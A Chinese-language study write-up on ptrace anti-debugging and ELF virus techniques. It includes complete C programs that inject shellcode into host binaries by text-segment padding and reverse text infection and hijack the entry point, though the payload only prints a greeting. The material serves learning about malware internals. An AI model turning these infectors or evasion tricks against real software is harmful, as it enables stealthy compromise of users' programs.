在Linux中，一种比较常用的方法是使用`ptrace()`的PTRACE_TRACEME请求，这样程序就会去追踪进程自身。而同一个进程同时只能被一个tracer追踪，所以，如果一个进程已经被追踪了，那么调试器试图使用`ptrace()`附加到这个进程时，会出现"Operation not permitted"错误。

当然，也可以使用PTRACE_TRACEME来检查程序是否已经被调试：

```c
if(ptrace(PTRACE_TRACEME, 0) < 0)
{
    printf("This process is being debugged.\n");
    exit(EXIT_FAILURE);
}
```

让上面这段代码一直执行该，只有在程序被追踪的时候才会退出。（这就涉及到了多线程编程）


但是这种基于ptrace系统调用的反调试方法是可以绕过的，比如使用LD_PRELOAD环境变量，来诱骗程序加载一个假的ptrace系统调用。这个假的ptrace系统调用什么都不做，只返回0，并且对调试器不会产生什么影响。

不过，如果程序在使用了基于ptrace系统调用的反调试技术的基础上，使用了自己封装的ptrace系统调用，而不是使用libc 中`ptrace()`的话，那么上面介绍的绕开反调试技术的方法就不起作用了。

```c
#define SYS_PTRACE 101
long _ptrace(long request, long pid, void *addr, void *data)
{
    long ret;
    __asm__ volatile(
    	"mov %1, %%rdi\n"
     	"mov %2, %%rsi\n"
        "mov %3, %%rdx\n"
        "mov %4, %%r10\n"
        "mov $SYS_PTRACE, %%rax\n"
        "syscall\n"
        "mov %%rax, %0\n"
        : "=r"(ret)
        : "g"(request), "g"(pid), "g"(addr), "g"(data)
    );
    return ret;
}
```

上面这段代码就是通过ptrace的系统调用号(101)实现的一个自己封装的ptrace系统调用，因为没有依赖libc 中封装的`ptrace()`，所以通过修改环境变量LD_PRELOAD来诱骗程序加载假的ptrace系统调用的方法就起不了作用了。

## 0x06 Linux/Unix 病毒

这一部分的内容将会介绍一些Linux/Unix系统下的病毒原理。

主要的参考内容是*Learning Linux Binary Analysis*，以及被称为Unix病毒之父的Silvo Cesare所发表的文章：Cesare, Silvio. "Unix ELF parasites and virus." *Unpublished technical report. http: //www. big. net. au/silvio/elf-pv. txt* (1998).

这篇文章目前只能在VX(Viruses eXchange) heaven网站上找到。

*Viruses don't harm, ignorance does!*


### ELF病毒简述

这里需要对计算机病毒的原理进行一个概括性的介绍：

> A computer virus is a type of computer program that, when executed, replicates itself by modifying other computer programs and inserting its own code. If this replication succeeds, the affected areas are then said to be "infected" with a computer virus, a metaphor derived from biological viruses. 
>
> -- Wikipedia

一般而言，病毒包含三个部分：

- Infection mechanism：也被称为感染向量，即病毒的传播的方法。病毒通常会有一个搜索路线，来定位新的文件用于感染。
- Trigger：也被称为逻辑炸弹(Logical bomb)，位于一个可执行文件中，能够在病毒运行时任意时刻被激活，它决定了"Payload"被激活或者传递的事件或者条件，例如特定的日期、时间，或者双击打开特定文件。
- Payload：用于执行病毒恶意目的的实际主体或数据。Payload的活动可能是很明显的，比如会导致系统运行变慢或者“冻结”，大多数时候，payload本身就是有害的活动。


ELF病毒的原理：

首先，黑客需要编写一个程序来修改一个可执行文件，在这个可执行文件中插入寄生代码。每个可执行文件都有一个控制流，也称为执行路径。ELF病毒的首要目标是劫持控制流，暂时改变程序执行路径来执行寄生代码。寄生代码通常负责设置钩子(hook)来劫持宿主程序的控制流，还会将寄生代码复制到没有感染病毒的程序中，一旦寄生代码执行完成，通常会跳转到原始入口点或程序正常的执行路径上，这样使得宿主程序貌似是正常执行的，病毒就不容易被发现。

### 代码寄生

在插入寄生代码时，需要解决两个主要的问题：

1. 如何将寄生代码插入到宿主程序的可执行文件中，并且不容易被发现
2. 如何让插入到宿主程序中的寄生代码能够顺利执行

在文章 *Unix ELF parasites and virus* 以及参考文献 *Learning Linux Binary Analysis* 中，其实验的环境中，可执行文件中的段与段之间是没有填充的，也就是说，虽然段被加载到内存中后会有填充（因为需要对齐），但是在文件中的每个段都是紧挨着的 。

这一点与本人所使用的实验环境不同：在我的实验环境中，每个段在文件和内存中都是有填充的，`p_align`就是这个段在文件与内存中的对齐量。并且在尝试搭建文章中的实验环境的过程中遇到了无法解决的错误，所以这里主要是介绍其原理，而不会有较多的实验记录。

文章中的实验环境的示意图：



在了解了文章中所使用的实验环境后，接下来的内容将会介绍Silvo所使用的text段填充的感染方法。

**#1**. 如何将寄生代码插入到宿主程序的可执行文件中，并且不容易被发现

在 *Unix ELF parasites and virus* 所提出的方法如下：

- Physically insert the new code (parasite) and pad to PAGE_SIZE, into the file - text segment p_offset + p_filesz (original)
- Locate the text segment program header

  - Modify the entry point of the ELF header to point to the new code (p_vaddr + p_memsz)
  - Increase p_filesz by account for the new code (parasite) 
  - Increase p_memsz to account for the new code (parasite) 
- Increase e_shoff by PAGE_SIZE in the ELF header
- For each phdr who's segment is after the insertion (text segment) 
  - Increase p_offset by PAGE_SIZE 
- For the last shdr in the text segment 
  - Increase sh_len by the parasite length 
- For each shdr who's section resides after the insertion Increase sh_offset by PAGE_SIZE
- Patch the insertion code (parasite) to jump to the entry point (original) 

> 注意这里为什么需要将寄生代码填充到一个PAGE_SIZE的大小，这是因为在插入过程中需要保证每一个段的p_offset = p_vaddr MOD PAGESIZE，而插入寄生代码的过程中会影响到text段之后所有段的p_offset，所以可能会导致后面的段无法满足这个要求而出现错误。
>
> 所以这里的解决方法是将寄生代码填充到一个PAGE_SIZE的大小后再插入，那么后面的所有段依然能够满足上面的要求。

其实这个方法的原理就是将寄生代码放到宿主程序运行时内存的text段填充的部分，这一步的工作很简单，只需要将寄生代码插入到text段的末尾即可，插入的过程是重写一个新的文件，在插入操作完成后用这个新的文件覆盖掉原来的文件。

**#2**. 如何让插入到宿主程序的寄生代码顺利执行

首先，为了避免任何链接错误，并且在使用不同库文件的系统上能够维持寄生代码的可移植性，寄生代码中不应该有任何共享库函数的调用。因此自然建议避免使用libc。

其次，==寄生代码必须是独立的==。这意味着寄生代码需要位置独立，能够动态地计算出所在的内存地址，这是因为每次感染过程中二进制文件所加载的地址都会变化，寄生代码每次注入二进制文件中的位置也会发生变化。这也就意味着如果寄生代码通过一个固定了的(Hardcodeed)地址来引用对应的函数或者数据，那么就会出现错误。

解决的方案是使用`-fPIC -pie`将寄生的代码编译成位置独立的代码，利用X86_64机器上的IP相对寻址特性来生成独立的寄生代码。

此外，如果寄生代码中使用了初始化的数据，那么最好的办法是将这些数据放在text段的末尾。或者使用栈来存储这些数据，比如下面这样：

```c
const char *str_0 = "Hello World!";
char str_1[] = {'H', 'e', 'l', 'l', 'o', ' ', 'W', 'o', 'r', 'l', 'd', '!', '\0'};
```

这样就能够避免让寄生代码通过地址来访问字符串，因为一旦寄生代码注入到另一个程序中后，这个地址就会失效。==使用栈存放字符串，这样才能够在运行时动态分配==。


#### text段感染

下面将通过实验复现前面介绍的代码寄生的方法。

在完成了代码寄生之后，文件应该是下面这样的：

[ELF Header] 

[Program header table] 

[Segment 1]	- The text segment of the host 

[Parasite code] - included by text segment

[Segment 2]	- The data segment of the host 

[Section header table]

为了能够在程序加载的时候将寄生代码也加载到内存中，这里需要将text段对应的程序头中的 p_filesz 和p_memsz 字段增加寄生代码的大小。

为了让寄生代码不被轻易发现，所以需要修改文件头节头表偏移，因为节头表总是位于文件末尾，所以这个节头表偏移量相当于文件的大小；

并且在程序头表和节头表中的每个条目的文件偏移量(p_offset, sh_offset)更新为正确的偏移量（因为本人的实验环境中text段对应的文件区域也是有填充的，所以这一步可以省略）；

此外还需要将text段的最后一个节对应的节头表条目中的sh_size进行扩大，这样使得寄生代码恰好位于text段的最后一个节中。

最后，为了能够让宿主程序执行寄生代码，这里使用的方法是直接将宿主程序的程序入口点修改为寄生代码插入的地址，即phdr[text].p_vaddr + phdr[text].p_memsz，同时为了能够让宿主程序也正常执行（这样不容易被发现），寄生代码在执行完成后还需要跳转到宿主程序的原来的程序入口点，将控制移交给宿主程序。如下：

```
movl %rax, $origin_entry
jmp *%rax
```

在本人的实验环境中，二进制文件的text段和内存镜像都是有填充的，所以进行代码寄生的方法和前面所介绍的代码注入的方法一样，当然个人还是觉得代码注入更加有难度一些。

这里实验所使用的宿主程序的代码如下：

```c
// host.c
// compiled with -no-pie
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("Hello World!\n");
    exit(0);
}

```

宿主程序只是一个简单的hello程序，但是为了能让其以一个固定的地址作为程序入口点，需要在编译的时候关闭地址随机化，也就是使用-no-pie选项进行编译。

实现上述代码寄生的代码如下：

##### Text infect

```c
/* text_infect.c 
 * parasite a shellcode to the host.
 * the shellcode do thing but print a greeting in the terminal.
 * Usage: ./text_infect <host_file> 
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>
#include <unistd.h>
#include <sys/stat.h>
#include <stdint.h>
#include <elf.h>
#include <fcntl.h>
#include <string.h>

#define PATCH_OFFSET 65

static volatile inline void 
_write(int, char *, unsigned int)__attribute__((aligned(8), __always_inline__));

static volatile inline void
_write(int fd, char *buffer, unsigned int len)
{
    __asm__ volatile(
        "mov %0, %%edi\n"
        "mov %1, %%rsi\n"
        "mov %2, %%edx\n"
        "mov $1, %%rax\n"
        "syscall\n"
        /* exit(0) */
        /*
        "mov $0, %%edi\n"
        "mov $60, %%rax\n"
        "syscall\n"
        */
        : 
        : "g"(fd), "g"(buffer), "g"(len)
    );
}

void parasite_greeting()
{
    char str[] = {'[', 'I', '\'', 'm', 
    ' ', 'i', 'n', ' ', 'h', 'e', 'r', 'e', ']','\n', '\0'};
    _write(1, str, 14);
    
    
    __asm__ volatile(
        "mov $0x401070, %%rax\n"
        "jmp *%%rax\n"
        :
        : 
    );
    
}

uint8_t *create_shellcode(void (*fn)(),size_t len)
{
    int i;
    uint8_t *mem = malloc(len);
    uint8_t *ptr = (uint8_t *)fn;
    for(i = 0; i < len; i++) mem[i] = ptr[i];
    return mem;
}

uint64_t f1 = (uint64_t)parasite_greeting;
uint64_t f2 = (uint64_t)create_shellcode;

int main(int argc, char *argv[])
{
    if(argc < 2)
    {
        printf("Usage: %s <exec_file>\n", argv[0]);
        exit(-1);
    }
    size_t parasite_len = ((f2 - f1) + 7) & (~7);
    uint8_t *shellcode = create_shellcode(parasite_greeting, parasite_len);

    char *file_name = strdup(argv[1]);
    int fd;
    if((fd = open(file_name, O_RDWR)) < 0)
    {
        perror("open");
        exit(-1);
    }
    struct stat st;
    if(fstat(fd, &st) < 0)
    {
        perror("fstat");
        exit(-1);
    }
    uint8_t *mem = mmap(NULL, st.st_size, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
    if(mem == NULL)
    {
        perror("mmap");
        exit(-1);
    }
    Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
    Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
    Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];
    Elf64_Off parasite_off;
    Elf64_Addr new_entry;
    int i;
    for(i = 0; i < ehdr->e_phnum; i++)
    {
        if((phdr[i].p_type == PT_LOAD) && (phdr[i].p_flags == PF_R + PF_X))
        {
            parasite_off = phdr[i].p_offset + phdr[i].p_filesz;
            phdr[i].p_filesz += parasite_len;
            new_entry = phdr[i].p_vaddr + phdr[i].p_memsz;
            phdr[i].p_memsz += parasite_len;
        }
    }
    for(i = 0; i < ehdr->e_shnum; i++)
    {
        if(shdr[i].sh_offset+shdr[i].sh_size == parasite_off)
            shdr[i].sh_size += parasite_len;
    }
    uint32_t old_entry = ehdr->e_entry;
    ehdr->e_entry = new_entry;
    if(lseek(fd, 0, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, mem, sizeof(Elf64_Ehdr) + ehdr->e_phentsize * ehdr->e_phnum) < 0)
    {
        perror("write");
        exit(-1);
    }
    /* patch the shellcode, but here we have a fixed entry point of host
    *(uint32_t *)&shellcode[PATCH_OFFSET] = old_entry;
    */
    if(lseek(fd, parasite_off, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, shellcode, parasite_len) < 0)
    {
        perror("write");
        exit(-1);
    }
    if(lseek(fd, ehdr->e_shoff, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, shdr, ehdr->e_shentsize * ehdr->e_shnum) < 0)
    {
        perror("write");
        exit(-1);
    }
    close(fd);
    return 0;
}
```

下面演示实验的结果：



这里出现和前面代码注入的实验中类似的错误，也就是修改宿主程序的PC以转移其控制流时，宿主程序能够正确执行寄生的代码，但是想要让程序继续执行其原来的代码时，会出现段错误。如下示意图所示：

> 造成这个问题的原因很有可能是Intel所提供的一种基于硬件的保护技术，CET(Control-flow Enforcement Technology)，也就是每个函数执行的第一条endbr64指令，这技术主要是为了保护程序控制流的完整性，具体原理这里不再赘述。目前可以确定的是，这里造成段错误的原因很有可能是因为CET技术。
>
> 除了CET，造成这个问题的原因还有可能跟动态链接有关，**通过查看_start()函数的源代码可以发现，_start()函数并不是通过绝对地址调用main()函数的，而是通过GOT[0]来调用**。在跳转到GOT[0]之前，_start()函数传递了一系列参数。下图是宿主程序在被寄生之前使用GDB调试的结果：
> 
> 图中的0x403ff0就是GOT[0]的地址。  
> 在进行了代码寄生后，再次使用GDB进行调试的结果如下：
> 
> 可以看到在跳转到GOT[0]前传递的参数中%r9 = 0xe，这个参数是前面的mov %r9, %rdx所提供的，而%rdx在前面的插入的代码中用于传递第三个参数，也就是打印字符的长度。  
> 在前面没有进行代码寄生的时候，这个寄存器中的值为%r9 = 0x7ffff7fc9040，指向程序的共享库区域中的_dl_fini()函数的地址。
> 执行下一条指令后，结果如下：
> 
> 可以看到在调用了GOT[0]之后，程序的PC跳转到了0xe处执行，从而引发的段错误。
> 在编译宿主程序时使用-static选项使其进行静态链接，结果或许会有所不同。或者让宿主程序不调用标准库。



想要让宿主程序正确执行，本人目前所想到的唯一办法就是让宿主程序执行寄生的shellcode后直接退出，因为不管让宿主程序执行完shellcode后跳转到程序原来的任何一个位置都会在退出的时候出现一个段错误。

如下：



如何让宿主程序在执行完寄生代码后继续执行其原来的代码依然是一个待解决的问题。但是可以知道的是，在文件的text段填充区域可以用来存放一段恶意代码，可以让宿主程序顺利执行这段恶意代码。

目前的计划是先将这本书中的内容看一遍，然后再着手解决这个问题，所以后面的代码寄生以及代码注入的实验中，写入的代码都只是打印一句greeting后退出。

#### 逆向text段感染

这种感染方法是由 Silvo 提出的，这种方法的原理是对text段进行逆向扩展。

如果能够对text段进行逆向扩展，那么就可以对其进行text段感染，这种方法与前面的text段感染(有些资料里将其成为填充感染，padding infection)不同的是，通过逆向text段感染后的宿主文件的程序入口点依然是指向.text节的，这样相比于前面介绍的感染方法更加不容易被发现。

在完成了代码寄生后，宿主程序对应的二进制文件应该是下面这样的：

[ELF Header] 

[Program header table] 

[Parasite code] - (.text section)

[Segment 1]	- The text segment of the host 

[Segment 2]	- The data segment of the host 

[Section header table]

除了感染点与text段填充感染不同，其他的原理基本都一样。当然，最后需要将text段的第一个节(.text)对应的节头表的sh_size字段进行放大。

*但既然是逆向扩展text段，那么在这个实验中，我决定将寄生代码插入到宿主程序原来的程序入口点中，这样虽然很更加复杂，但是也更加隐蔽*。

具体的做法是，将shellcode写到函数入口点在文件中的偏移处，然后紧跟着写下text段剩下的内容，并且将text段对应的程序头表条目的p_filesz和p_memsz字段都增加寄生代码的长度。为了增加隐蔽性，可以将扩大节头表中.text节对应的条目的sh_size字段，使之包含shellcode的大小，这样会使得text段中后续的节的偏移量发生移位，所以也需要对其进行修补。

代码实现如下：

##### Reverse text infect

```c
/* reverse_text_infect.c 
 * parasite a shellcode to the host.
 * the shellcode do nothing but print a greeting in the terminal.
 * Usage: ./reverse_text_infect <host_file> 
*/

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>
#include <unistd.h>
#include <sys/stat.h>
#include <stdint.h>
#include <elf.h>
#include <fcntl.h>
#include <string.h>

static volatile inline void 
_write(int, char *, unsigned int)__attribute__((aligned(8), __always_inline__));

static volatile inline void
_write(int fd, char *buffer, unsigned int len)
{
    __asm__ volatile(
        /* write(1, "[I'm in here]\n", 14) */
        "mov %0, %%edi\n"
        "mov %1, %%rsi\n"
        "mov %2, %%edx\n"
        "mov $1, %%rax\n"
        "syscall\n"
        
        /* exit(0) */
        "mov $0, %%edi\n"
        "mov $60, %%rax\n"
        "syscall\n"
        : 
        : "g"(fd), "g"(buffer), "g"(len)
    );
}

void parasite_greeting()
{
    char str[] = {'[', 'I', '\'', 'm', 
    ' ', 'i', 'n', ' ', 'h', 'e', 'r', 'e', ']','\n', '\0'};
    _write(1, str, 14);
    
    /*
    __asm__ volatile(
        "mov $0x401178, %%rax\n"
        "jmp *%%rax\n"
        :
        : 
    );
    */
}

uint8_t *create_shellcode(void (*fn)(),size_t len)
{
    int i;
    uint8_t *mem = malloc(len);
    uint8_t *ptr = (uint8_t *)fn;
    for(i = 0; i < len; i++) mem[i] = ptr[i];
    return mem;
}

uint64_t f1 = (uint64_t)parasite_greeting;
uint64_t f2 = (uint64_t)create_shellcode;

int main(int argc, char *argv[])
{
    if(argc < 2)
    {
        printf("Usage: %s <exec_file>\n", argv[0]);
        exit(-1);
    }
    size_t parasite_len = ((f2 - f1) + 7) & (~7);
    uint8_t *shellcode = create_shellcode(parasite_greeting, parasite_len);
    char *file_name = strdup(argv[1]);
    int fd;
    if((fd = open(file_name, O_RDWR)) < 0)
    {
        perror("open");
        exit(-1);
    }
    struct stat st;
    if(fstat(fd, &st) < 0)
    {
        perror("fstat");
        exit(-1);
    }
    uint8_t *mem = mmap(NULL, st.st_size, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
    if(mem == NULL)
    {
        perror("mmap");
        exit(-1);
    }
    Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
    Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
    Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];
    Elf64_Off start_off;
    Elf64_Off text_off;
    size_t remained_text_len;
    Elf64_Addr new_origin_entry;
    /* this is for jump back to the original entry*/
    /* but here we just print a greeting message */
    /* so this variable is unused */
    
    int i;
    for(i = 0; i < ehdr->e_phnum; i++)
    {
        if(phdr[i].p_type == PT_LOAD && phdr[i].p_flags == PF_R + PF_X)
        {
            text_off = phdr[i].p_offset;
            size_t in_text_off = ehdr->e_entry - phdr[i].p_vaddr;
            start_off = in_text_off + phdr[i].p_offset;
            new_origin_entry = ehdr->e_entry + parasite_len;
            remained_text_len = phdr[i].p_filesz - in_text_off;
            phdr[i].p_memsz += parasite_len;
            phdr[i].p_filesz += parasite_len;
        }
    }
    int text_sect = 0;
    for(i = 0; i < ehdr->e_shnum; i++)
    {
        if(shdr[i].sh_flags == SHF_ALLOC + SHF_EXECINSTR && text_sect)
            shdr[i].sh_offset += parasite_len;
        if(shdr[i].sh_addr == ehdr->e_entry)
        {
            shdr[i].sh_size += parasite_len;
            text_sect = 1;
        }
    }
    if(lseek(fd, 0, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, mem, sizeof(Elf64_Ehdr) + ehdr->e_phentsize * ehdr->e_phnum) < 0)
    {
        perror("write");
        exit(-1);
    }
    if(lseek(fd, start_off, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, shellcode, parasite_len) < 0)
    {
        perror("write");
        exit(-1);
    }
    if(lseek(fd, start_off + parasite_len, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, &mem[start_off], remained_text_len) < 0)
    {
        perror("write");
        exit(-1);
    }
    if(lseek(fd, ehdr->e_shoff, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, shdr, ehdr->e_shentsize * ehdr->e_shnum) < 0)
    {
        perror("write");
        exit(-1);
    }
    close(fd);
}
```

执行的结果如下：



可以看到这里成功地在程序原来的入口点处寄生了一段代码，这段代码打印了一个字符串后就退出了。

在这里，可能必须得让寄生代码执行后退出，因为插入的代码使得在插入点之后的text段代码的偏移量发生了偏移，如果宿主程序中存在函数调用，那么因为我们这里并没有对这些函数调用进行修补，所以原来的函数调用会指向一个错误的地址，从而使得宿主程序根本无法正常运行。如下图所示：



显然，这个问题不止会当尝试在程序入口点进行代码寄生时发生，想要在任何一个非填充区的指定位置插入代码都会出现这个问题。而这里所说的在任何一个非填充区的指定位置插入代码实际上就是二进制插桩，上面所说的问题也正是二进制插桩(Binary Instrumentation)技术所需要解决的技术难题。